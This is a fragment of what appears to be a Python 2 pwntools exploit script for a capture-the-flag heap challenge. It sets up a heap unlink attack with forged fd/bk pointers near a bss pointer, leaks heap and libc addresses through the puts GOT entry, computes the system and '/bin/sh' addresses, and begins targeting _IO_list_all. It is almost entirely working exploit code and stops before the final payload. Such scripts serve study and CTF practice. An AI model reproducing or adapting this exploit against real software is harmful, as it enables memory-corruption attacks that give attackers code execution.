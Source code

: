 ```
	p.sendlineafter('>', "2")
	p.sendlineafter("Which array would you like to view?", str(arr_index))
	p.recvuntil("Which element would you like to view?")
	p.recv()
	p.sendline(str(ele_index))


add(30)#0
add(30)#1
add(30)#2
bss=0x602060+0x18

f=bss-0x18
b=bss-0x10

# 1.fd = ptr - 0x18
# 2.bk = ptr - 0x10
# unlink
# ptr -> ptr - 0x18
# ptr = 0x602060

add(0x100/8-1)#3
add(0x100/8-1)#4
add(0x80/8-1)#5

free(3)
free(4)
add((0x210)/8-1)#6

# 3+4->6
#pause()
edit(6, 0, 0x101)
edit(6, 1, f)
edit(6, 2, b)

edit(6, 31, 0x100)
edit(6, 32, 0x90)
edit(6, 49, 0)
edit(6, 50, 0x21)
edit(6, 53, 0)
edit(6, 54, 0x21)
# unlink
free(4)

# from 1
show(3, 0)
heap_addr = int(p.recvuntil('Done', drop=True)) - 0x58
print "[+] heap_addr = " + str(hex(heap_addr))
edit(3, 0, elf.got['puts']-8)

show(1, 0)
puts_addr = int(p.recvuntil('Done', drop=True))
print "[+] puts_addr = " + str(hex(puts_addr))

libc_base = puts_addr - libc.symbols['puts']
system_addr = libc.symbols['system'] +libc_base
binsh_addr = next(libc.search("/bin/sh")) + libc_base
print hex(binsh_addr)

#edit(3, 0, elf.got['free']-24)

#stdout = libc.symbols['_IO_2_1_stdout_']+libc_base
vtable = libc.symbols['_IO_list_all'] + libc_base
```